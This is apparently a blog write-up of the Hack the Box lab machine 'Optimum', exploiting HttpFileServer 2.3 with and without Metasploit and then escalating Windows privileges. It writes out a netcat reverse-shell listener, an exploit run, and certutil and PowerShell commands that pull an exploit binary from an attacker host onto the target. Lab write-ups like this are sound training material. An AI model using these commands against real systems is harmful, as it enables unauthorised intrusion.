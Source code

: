 # Hack the Box — Optimum

With and Without Metasploit

Originally, I solved this box as part of the [TCM Security](https://tcm-sec.com/) Practical Ethical Hacking course with Metasploit but Heath, the instructor, did mention going back to solve it manually would be good practice. Whelp since the OSCP only lets one Metasploit use, I figure let me get into the practice of doing boxes without it. This box is also on the [TJ Null List](https://docs.google.com/spreadsheets/u/1/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/htmlview).

![](https://miro.medium.com/v2/resize:fit:1400/1*Tkm7wn36_eVugxDozoN1cg.png)

# Recon

nmap -sC -sV -O -oA nmap/initial 10.10.10.8

![](https://miro.medium.com/v2/resize:fit:1400/1*KhC9fJPRVEJN-Fyg9QS08A.png)

nmap -sC -sV -O -p- -oA nmap/full 10.10.10.8

![](https://miro.medium.com/v2/resize:fit:1400/1*ryDdQU1aYi1NPlOQDKcRUA.png)

nmap -sU -O -p- -oA nmap/udp 10.10.10.8

![](https://miro.medium.com/v2/resize:fit:1400/1*rU0BhbSYVpzuMIVqzA2WEw.png)

# Enum

![](https://miro.medium.com/v2/resize:fit:1400/1*mJeiinFBAp6EAMydlbvEbQ.png)

Google it…

![](https://miro.medium.com/v2/resize:fit:1400/1*pm9WYsBS-OeVTy53zOQ_xQ.png)

Exploitable! We find [https://www.exploit-db.com/exploits/39161](https://www.exploit-db.com/exploits/39161)

# Exploitation With Metasploit

## Find exploit for HttpFileServer 2.3

![](https://miro.medium.com/v2/resize:fit:1400/0*M_yQDS6akQYVmyBf.png)

## Configure the Options

![](https://miro.medium.com/v2/resize:fit:1400/0*HUvn0ZHx18OSxomT.png)

## There’s a Difference in Architecture between the box and our meterpreter session

## But that doesn’t seem to affect our exploitation

Possible because Metasploit is auto-detecting the target

![](https://miro.medium.com/v2/resize:fit:1400/0*w0-5MiZxyZtBzZGJ.png)

## Privilege Escalation

I background the first meterpreter session and search for suggested post-breach exploits  
The only option that needs to be configured here is the session  
If sessions aren’t know you can just run `show sessions`

![](https://miro.medium.com/v2/resize:fit:1400/0*NshUqREfn1rwDHEm.png)

Once the suggester runs, I find what I’m really looking for which is a way to privilege escalate from the “Kostas” user to the system authority/root

![](https://miro.medium.com/v2/resize:fit:1400/0*abn58EusSDBr5OEk.png)

We get system authority from the exploit

![](https://miro.medium.com/v2/resize:fit:1400/0*znOGliVxGk4GRf3q.png)

# Manual Exploitation

In order to use the exploit we found from google searching we must find netcat and copy it into our working folder so we can serve it

locate nc.exe  
cp /usr/share/windows-binaries/nc.exe ~/HTB/Optimum-10.10.10.8

Start the HTTP server

python -m SimpleHTTPServer 80 

Start a listener

nc -nlvp 5555

Download the exploit we found: [https://www.exploit-db.com/exploits/39161](https://www.exploit-db.com/exploits/39161)

![](https://miro.medium.com/v2/resize:fit:1400/1*E3d3LhYc3LQPLzaheSQUZw.png)

“searchsploit -m” makes it easy to download exploits from exploit-db

Edit the exploit with our details

![](https://miro.medium.com/v2/resize:fit:1400/1*PvcDP6QPglaxESw9qCoZTA.png)

Run the exploit

python 39161.py 10.10.10.8 80

Acquire shell on listening port

![](https://miro.medium.com/v2/resize:fit:1400/1*15cytkwhgtiWsfETHjWyNQ.png)

Get user flag

![](https://miro.medium.com/v2/resize:fit:1368/1*Mi0ocPrNJc9EgAhWdglIxg.png)

## Priv Esc

I used [https://github.com/Glyph-Research/Windows-Exploit-Suggester.git](https://github.com/Glyph-Research/Windows-Exploit-Suggester.git) which as its name implies suggests exploits based on system info

Initially, I ran this based on the readme instructions:

pip install xlrd --upgrade

![](https://miro.medium.com/v2/resize:fit:1400/1*YxIWL047fDQdnLZglUqiaw.png)

To install the dependencies and update them BUT it actually broke the exploit.

I kept getting this error:

![](https://miro.medium.com/v2/resize:fit:1400/1*a8j3uCY-CShUQRSNj3olWA.png)

The fix was to downgrade to the older version I had before:

pip install xlrd==1.2.0 

![](https://miro.medium.com/v2/resize:fit:1400/1*nNmu9aIpUqsnS5Ja5wbWEw.png)

Now that the dependency issue has been fixed let me go back and explain the preparation for the above command.

In order to prepare the database and system info I run ``systeminfo`` command using the foothold of the Kostas user

![](https://miro.medium.com/v2/resize:fit:1400/1*RzePLwMD2DUJunLvXkCpqQ.png)

Copy the output of ``systeminfo`` into sysinfo.txt

Then I run the following to create that database .xls file

./windows-exploit-suggester.py --update

![](https://miro.medium.com/v2/resize:fit:1400/1*3nZNLgeBhwqRpYiY3mi4nw.png)

Once those two pieces are created I can run the suggester:

![](https://miro.medium.com/v2/resize:fit:1400/1*nNmu9aIpUqsnS5Ja5wbWEw.png)

From here all I have to do is download the executable that has already been compiled and since I still have my python server up and running I put this .exe in the same folder so I can grab it with Kostas

wget https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/raw/main/bin-sploits/41020.exe

![](https://miro.medium.com/v2/resize:fit:1400/1*rRD8xyIk8kobDflW8kSkEA.png)

Go back to my Kostas shell and use certutil

certutil.exe -urlcache -f http://10.10.14.37:80/41020.exe toasted.exe

This can also be accomplished with PowerShell

powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.37:80/41020.exe', 'c:\Users\Public\Downloads\41020.exe')"

![](https://miro.medium.com/v2/resize:fit:1400/1*iU9FuVbLge_dE6PXN26fkQ.png)

Once the exploit is run and the privileges have been escalated then getting the root flag is simple

![](https://miro.medium.com/v2/resize:fit:1400/1*ehrPXjlZQ4Q2vlUNtGPKfg.png)

# Issues

Why was any of this possible? Both the foothold and privilege escalation were do to old, unpatched software. This box is old but has evergreen relevance because we are still facing issues in 2023 due to unpatched software and system components.
